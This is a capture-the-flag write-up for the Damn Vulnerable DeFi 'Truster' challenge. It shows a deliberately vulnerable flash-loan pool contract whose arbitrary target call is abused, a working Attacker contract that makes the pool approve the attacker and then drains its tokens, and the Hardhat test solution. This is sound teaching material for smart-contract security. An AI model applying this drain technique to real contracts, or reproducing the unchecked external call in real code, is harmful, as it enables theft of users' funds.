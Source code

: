 # Truster

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "@openzeppelin/contracts/utils/Address.sol";
import "@openzeppelin/contracts/security/ReentrancyGuard.sol";
import "../DamnValuableToken.sol";

/**
 * @title TrusterLenderPool
 * @author Damn Vulnerable DeFi (https://damnvulnerabledefi.xyz)
 */
contract TrusterLenderPool is ReentrancyGuard {
    using Address for address;

    DamnValuableToken public immutable token;

    error RepayFailed();

    constructor(DamnValuableToken _token) {
        token = _token;
    }

    function flashLoan(uint256 amount, address borrower, address target, bytes calldata data)
        external
        nonReentrant
        returns (bool)
    {
        uint256 balanceBefore = token.balanceOf(address(this));

        token.transfer(borrower, amount);
        target.functionCall(data);

        if (token.balanceOf(address(this)) < balanceBefore)
            revert RepayFailed();

        return true;
    }
}
```

## Goal

Take all DVT tokens out of the pool (TrusterLenderPool) in a single transaction.

## Exploit

In order to finish this CTF we will have to use another smart contract. We can name this contract Attacker.

In order to pass this challenge we need to call the flashLoan() function inside TrusterLenderPool from our Attacker contract.

The exploitable part of flashLoan() function is in the following line of code:

```
target.functionCall(data);
```

To be able to finish this CTF we will need to use abi encodin.

To exploit the contract we need to:

1. create Attacker contract, and create instance from the TrusterLenderPool contract inside the Attacker contract
2. create executeFlashLoan(address player, address _token, uint245 amount) external function inside Attacker contract. This function will call flashLoan(uint256 amount, address borrower, address target, bytes calldata data) function from TrusterLenderPool with the following arguments
<ul>
<li>amount will be all the tokens in the pool, 1000000*10^18</li>
<li>borrower will be the address of the TrusterLenderPool contract itself (the pool will be transferring the funds to iteslf)</li>
<li>target will be the address of the token contract</li>
<li>data will be abi.encodeWithSignature("approve(address,uint256)", address(this), amount), this will approve our Attacker contract to spend the funds that belong to the pool on their behalf</li>
<li>create instance of the token</li>
<li>call transferFrom() function from the token, we will be transferring all of the tokens from the pool to our account(player)</li>
</ul>

## Attacker contract code

```
// SPDX-License-Identifier: MIT

pragma solidity ^0.8.0;

import "../DamnValuableToken.sol";
import { TrusterLenderPool } from "./TrusterLenderPool.sol";

contract Attacker {
    TrusterLenderPool private immutable pool;

    constructor(TrusterLenderPool _pool) {
        pool = TrusterLenderPool(_pool);
    }

    function executeFlashLoan(address player, address _token, uint256 amount) external {
        pool.flashLoan(
            amount,
            address(pool),
            _token,
            abi.encodeWithSignature("approve(address,uint256)", address(this), amount)
        );

        DamnValuableToken token = DamnValuableToken(_token);
        token.transferFrom(address(pool), player, amount);
    }
}
```

## Solution code

```
const { ethers } = require('hardhat');
const { expect } = require('chai');

describe('[Challenge] Truster', function () {
    let deployer, player;
    let token, pool;

    const TOKENS_IN_POOL = 1000000n * 10n ** 18n;

    before(async function () {
        /** SETUP SCENARIO - NO NEED TO CHANGE ANYTHING HERE */
        [deployer, player] = await ethers.getSigners();

        token = await (await ethers.getContractFactory('DamnValuableToken', deployer)).deploy();
        pool = await (await ethers.getContractFactory('TrusterLenderPool', deployer)).deploy(token.address);
        expect(await pool.token()).to.eq(token.address);

        await token.transfer(pool.address, TOKENS_IN_POOL);
        expect(await token.balanceOf(pool.address)).to.equal(TOKENS_IN_POOL);

        expect(await token.balanceOf(player.address)).to.equal(0);
    });

    it('Execution', async function () {
        /** CODE YOUR SOLUTION HERE */
        attacker = await (await ethers.getContractFactory('Attacker', player)).deploy(pool.address);

        await attacker.executeFlashLoan(player.address, token.address, TOKENS_IN_POOL);
    });

    after(async function () {
        /** SUCCESS CONDITIONS - NO NEED TO CHANGE ANYTHING HERE */

        // Player has taken all tokens from the pool
        expect(
            await token.balanceOf(player.address)
        ).to.equal(TOKENS_IN_POOL);
        expect(
            await token.balanceOf(pool.address)
        ).to.equal(0);
    });
});
```